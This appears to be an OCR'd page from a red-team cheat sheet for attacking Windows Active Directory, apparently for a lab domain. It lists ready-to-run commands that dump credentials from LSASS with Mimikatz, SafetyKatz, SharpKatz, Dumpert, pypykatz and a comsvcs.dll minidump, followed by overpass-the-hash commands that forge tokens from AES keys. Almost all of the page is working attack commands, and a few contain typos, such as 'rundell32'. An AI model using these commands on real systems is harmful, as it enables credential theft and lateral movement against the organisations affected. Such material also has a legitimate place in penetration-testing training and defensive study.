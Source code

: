 ### LSASS -

#### Extracting Credentials from LSASS - (Very high chances of detection when interacting with LSASS)

* Dump credentials on a local machine using **Mimikatz** -

```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

* using **SafetyKatz** (minidump of LSASS and PELoader to run mimikatz)

```
SafetyKatz.exe "sekurlsa::ekeys"
```

* Dump Credentails using SharpKatz (C# port of some of Mimikatz functionality)

```
SharpKatz.exe --Command ekeys
```

* Dump Credentials using Dumpert (DIrect System calls and API unhooking) -

```
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```

* Using pypykatz (Mimikatz funtionality oin python) -

```
pypykatz.exe live lsa
```

* Using Comsvcs.dll -

```
tasklist /FI "IMAGENAME eq lsass.exe"
rundell32.exe C:\Windows\System32\comsvcs.dll, Minidump <lsass_process_id> C:\users\Public\lsass.dump full
```

* From a Linux attacking machine user impacket or Physmem2profit

### OverPass The-Hash -

* Over pass the hash (OPTH) generates tokens from hashes or keys. Needs elevation (Run as administrator)

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"'

or

SafetyKatz.exe "sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:cmd.exe" "exit"
```

